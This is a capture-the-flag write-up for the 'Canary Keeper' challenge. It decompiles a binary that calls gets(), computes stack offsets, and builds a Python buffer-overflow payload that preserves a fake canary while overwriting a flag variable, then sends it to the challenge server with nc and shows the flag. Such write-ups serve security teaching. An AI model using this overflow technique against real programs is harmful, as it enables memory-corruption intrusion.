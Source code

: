 # Canary Keeper
We are given a binary `provided` that asks for our input giving it some random letters gives  
> No changes in flag detected!
Opeinig it up in BinaryNinja gives:  
```C
00001203  int32_t main(int32_t argc, char** argv, char** envp)

00001203  {
00001212      int64_t var_48;
00001212      __builtin_strncpy(&var_48, "FLAG", 0x40);
00001252      int32_t var_4f;
00001252      __builtin_strncpy(&var_4f, "canary", 7);
0000126f      printf("Enter a string: ");
00001283      void buf;
00001283      gets(&buf);
00001296      int32_t rax_3;
00001296      if (check_canary(&var_4f) == 0)
00001296      {
0000129f          puts("Buffer overflow detected!");
000012a4          rax_3 = 1;
00001296      }
00001296      else if (check_flag(&var_48) == 0)
000012b9      {
000012e1          printf("Flag: %s\n", "FLAG");
000012e6          rax_3 = 0;
000012b9      }
000012b9      else
000012b9      {
000012c2          puts("No changes in flag detected!");
000012c7          rax_3 = 1;
000012b9      }
000012ec      return rax_3;
00001203  }
```
Let's look at the `check_canary` function:
```C
000011a9  uint64_t check_canary(char* arg1)

000011a9  {
000011ce      int32_t rax_1;
000011ce      rax_1 = strcmp(arg1, "canary") == 0;
000011d5      return ((uint64_t)rax_1);
000011a9  }
```
So our canary is "canary".  
what about `check_flag`?
```C
000011d6  uint64_t check_flag(char* arg1)

000011d6  {
000011fb      int32_t rax_1;
000011fb      rax_1 = strcmp(arg1, "FLAG") == 0;
00001202      return ((uint64_t)rax_1);
000011d6  }
```
So We modify the variable var_48 so that it fails the `check_flag` check, but without changing the canary.

Now let's think about our stack layout:  
checking out the offset of each variable we can conclude: 
```
-0x48 var_48 (the "flag" we want to change)
-0x4f var_4f (our canary)
-0x98 buf
```
so the offset between our buffer and our canary is 73 bytes.

We can make a simple payload with python (no need for pwntools):  
```python3 -c "print('A'*73+'canary\x00'+'newvalue')"```  
We added a null byte(`\x00`) to end our canary string so that the `strcmp` in `check_canary` stops the comparison there.  
let's save our payload to a file:  
```python3 -c "print('A'*73+'canary\x00'+'newvalue')" > payload```  
And now we redirect it to the server:  
```nc challs.bcactf.com 32101 < payload```  
We have our flag:
> bcactf{s1mple_CANaRY_9b36bd9f3fd2f}
